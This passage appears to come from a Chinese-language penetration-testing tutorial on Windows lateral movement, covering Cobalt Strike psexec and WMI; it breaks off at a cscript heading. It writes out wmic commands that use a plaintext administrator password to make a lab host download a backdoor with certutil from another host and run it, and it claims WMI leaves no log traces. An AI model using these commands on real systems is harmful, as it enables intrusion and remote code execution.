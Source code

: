 ##### 利用3 cs插件  
  
  
cs-psexec  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7u8tf3P3l0iaL7sppoeniaPBLR987eC5ExEq0UHOEhXTpBxicNRj51rqvw/640?wx_fmt=png&from=appmsg "")  
  
  
也是成功上线了。  
  
#### WMI  
  
  
Windows Management Instrumentation,Windows 管理规范  
  
  
从win2003开始一直存在，原本的作用是方便管理员对windows主机进行管理。因此在内网渗透中，我们可以使用WMI进行横向移动，支持用户名明文或者hash方式进行认证，并且该方法不会在目标日志系统留下痕迹。  
  
  
利用条件：  
  
1. WMI服务开启，端口135，默认开启  
1. 防火墙允许135，445端口通信  
1. 知道目标的账户密码或hash  
##### 利用1 wmic  
  
  
系统内置命令（单执行）缺陷：1.不知道回显 2.只支持明文，不支持hash  
  
  
让目标下载后门 执行后门  
  
  
shell wmic /node:192.168.3.32 /user:sqlserver\administrator /password:admin!@#45 process call create "certutil -urlcache -split -f http://192.168.3.31/3232.exe c:/3232.exe"  
  
  
先把后门放到网站服务器，IIS网站服务器根目录在C:\inetpub\wwwroot  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7Qp6p6fDOfbLST80vrJXfsL0KN1DUdItQiaJLzSEbElYPXWMB8KXL23A/640?wx_fmt=png&from=appmsg "")  
  
  
shell wmic /node:192.168.3.32 /user:sqlserver\administrator /password:admin!@#45 process call create "c:/3232.exe"  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7Kpdax5xicuga2ucIKwCia7AHv6L9Hknb6OyHPkgPTv4E9Nq6sfibYuECw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7NxSaadsDgyqBayCzdCf6T0j76qibS5LPZYa8ibuaORSlt1keic9mNJmYA/640?wx_fmt=png&from=appmsg "")  
  
  
然后connect正向连接  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7uyN2LJ3ic8czS0N4HvUDc8ppprHMDB9NIcAAFkwDSQYXc3z4wQfaykg/640?wx_fmt=png&from=appmsg "")  
  
  
成功上线！  
  
##### 利用2 cscript  
  